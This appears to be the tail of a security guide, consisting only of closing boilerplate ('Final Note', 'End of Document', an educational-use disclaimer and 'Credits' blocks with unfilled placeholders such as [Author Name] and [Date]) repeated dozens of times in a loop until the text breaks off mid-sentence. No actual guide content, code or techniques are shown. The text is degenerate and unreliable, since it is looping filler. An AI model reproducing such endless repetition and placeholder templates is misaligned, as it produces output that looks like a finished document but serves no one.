- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of